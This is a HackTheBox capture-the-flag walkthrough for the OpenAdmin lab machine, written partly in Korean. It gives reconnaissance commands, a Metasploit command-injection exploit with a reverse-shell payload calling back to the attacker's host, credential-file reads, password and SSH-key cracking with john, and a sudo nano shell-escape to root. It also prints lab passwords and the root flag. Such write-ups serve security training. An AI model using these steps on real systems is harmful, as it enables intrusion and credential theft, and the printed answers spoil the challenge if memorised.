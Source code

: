 
# HackTheBox Walkthrough - Machine: OpenAdmin

**Target IP**: 10.129.23.96  
**Difficulty**: Easy  
**Objective**: Exploit OpenNetAdmin on the target to gain user and root access.

---

## Task 1: There are three directories on the webserver. /artwork, /sierra, and what else?

Nmap 스캔:
```bash
nmap -sV -sC -oA nmap/OpenAdmin 10.129.23.96
```
![nmap](img/nmap.png)

Gobuster로 디렉토리 검색:
```bash
gobuster dir -u http://10.129.23.96/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
![gobuster](img/gobuster.png)

**Answer**: `/music`

---

## Task 2: /music 경로에서 어드민 도구로 연결되는 상대 경로는?

HTML 소스코드 확인 결과:
```html
<a href="../ona" class="login">Login</a>
```
![ona](img/ona.png)

**Answer**: `/ona`

---

## Task 3: OpenNetAdmin 버전은?

접속: `http://10.129.23.96/ona/`  
페이지 하단에서 확인 가능:  
![version](img/version.png)

**Answer**: `v18.1.1`

---

## Task 4: Exploit 후 실행 권한이 부여된 유저는?

![modules](img/modules.png)

Metasploit 사용:
```bash
msfconsole
search OpenNetAdmin
use exploit/unix/webapp/opennetadmin_ping_cmd_injection
set RHOSTS 10.129.23.96
set LHOST 10.10.14.156
set payload linux/x64/meterpreter/reverse_tcp
run
```
![meterpreter](img/meterpreter.png)

```bash
meterpreter > getuid
Server username: www-data
```

**Answer**: `www-data`

---

## Task 5: jimmy 사용자의 비밀번호는?

```bash
cat /opt/ona/www/local/config/database_settings.inc.php
```
![password](img/password.png)

**Answer**: `n1nj4W4rri0R!`

---

![ssh](img/ssh.png)

## Task 7: joanna 사용자와 관련된 Virtual Host는?

```bash
cat /etc/apache2/sites-available/internal.conf
```
![internal](img/internal.png)

**Answer**: `internal.openadmin.htb`

---

## Task 8: joanna의 내부 웹 비밀번호는?

```bash
cat /var/www/internal/index.php
```
![hash](img/hash.png)

john으로 크랙:
```bash
john --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt hashfile
```
![Reveal](img/Reveal.png)

**Answer**: `Revealed`

---

## Task 9: joanna의 프라이빗 키 비밀번호는?

포트 52846 포워딩 후 내부 웹 접근:  
![52846](img/52846.png)

- 로그인: jimmy / Revealed  
- Joanna의 Private Key 획득  
![privatekey](img/privatekey.png)

```bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
![john](img/john.png)

**Answer**: `bloodninjas`

---

![joanna](img/joanna.png)  
![userflag](img/userflag.png)

## Task 10: Joanna가 root 권한으로 실행 가능한 바이너리는?

```bash
sudo -l
```
![sudo-l](img/sudo-l.png)

```bash
(ALL) NOPASSWD: /bin/nano /opt/priv
```

**Answer**: `nano`

---

## Submit Root Flag

![rootexploit](img/rootexploit.png)

```bash
sudo /bin/nano /opt/priv
# Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0
```
![root](img/root.png)

```bash
id
cat /root/root.txt
```
![rootflag](img/rootflag.png)

**Answer**: `78897901971b35f79397fb168713dd86`

---
